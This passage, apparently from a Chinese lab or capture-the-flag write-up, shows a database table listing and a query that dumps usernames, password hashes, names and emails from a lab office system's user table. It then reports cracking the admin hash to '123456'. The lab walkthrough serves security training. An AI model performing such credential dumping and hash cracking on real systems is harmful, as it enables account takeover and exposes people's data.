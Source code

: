```sql
| zdoosys_workflowrule           |
| zdoosys_workflowsql            |
| zdoosys_workflowversion        |
| zdooteam_reply                 |
| zdooteam_thread                |
| zdooview_datasource_7          |
+--------------------------------+
158 rows in set (0.00 sec)
```

在 `zdoosys_user` 这个表中，得到以下信息

```sql
select account, password, realname, email from zdoosys_user;
```

|   account    |             password             | realname |            email            |
| :----------: | :------------------------------: | :------: | :-------------------------: |
|    admin     | c7122a1349c22cb3c009da3613d242ab |  admin   |                             |
|  lixiuying   | ac5ff333cfa4e4025d29a4087a3a5016 |  李秀英  |  `lixiuying@xiaorang.lab`   |
| lixiaoliang  | 030b44481c1ce175e753da06cf70f3d2 |  李晓亮  | `lixiaoliang@xiaorang.lab`  |
|   zhangyi    | 68a5817acec06b9b4f8848ec68b1c8b7 |   张毅   |   `zhangyi@xiaorang.lab`    |
| jiaxiaoliang | ed16c05d993a15d0ffe28a9a60c9d1d2 |  贾筱芮  | `jiaxiaoliang@xiaorang.lab` |
|   zhangli    | d58e48c425a6b4913799e5b0bbdd4ee3 |   张力   |   `zhangli@xiaorang.lab`    |
|   zhangwei   | 02167256dcc0f934eaa312dd9d63820b |   张伟   |   `zhangwei@xiaorang.lab`   |
|   liuqiang   | 97df096acf67f23bc810e6eea8151133 |   刘强   |   `liuqiang@xiaorang.lab`   |
|   wangfang   | cbdb423c741fcea593f0e522fdd417b0 |   王芳   |   `wangfang@xiaorang.lab`   |
|   wangwei    | 9ed9d2a1640b54c6eb9581ce334b79ab |   王伟   |   `wangwei@xiaorang.lab`    |
|  wanglihong  | 9ed9d2a1640b54c6eb9581ce334b79ab |  王力宏  |  `wanglihong@xiaorang.lab`  |
|  huachunmei  | 9ed9d2a1640b54c6eb9581ce334b79ab |  华春梅  |  `huachunmei@xiaorang.lab`  |
|   wanghao    | 9ed9d2a1640b54c6eb9581ce334b79ab |   王浩   |   `wanghao@xiaorang.lab`    |
|  zhangxinyu  | 9ed9d2a1640b54c6eb9581ce334b79ab |  张馨予  |  `zhangxinyu@xiaorang.lab`  |
|  huzhigang   | 9ed9d2a1640b54c6eb9581ce334b79ab |  胡志刚  |  `huzhigang@xiaorang.lab`   |
|  lihongxia   | 9ed9d2a1640b54c6eb9581ce334b79ab |  李红霞  |  `lihongxia@xiaorang.lab`   |
|  wangyulan   | 9ed9d2a1640b54c6eb9581ce334b79ab |  王玉兰  |  `wangyulan@xiaorang.lab`   |
| chenjianhua  | 9ed9d2a1640b54c6eb9581ce334b79ab |  陈建华  | `chenjianhua@xiaorang.lab`  |

得到了一组敏感凭据

并且 `admin:c7122a1349c22cb3c009da3613d242ab` 的密码哈希经过数据库查询，可以得到明文为 `123456`
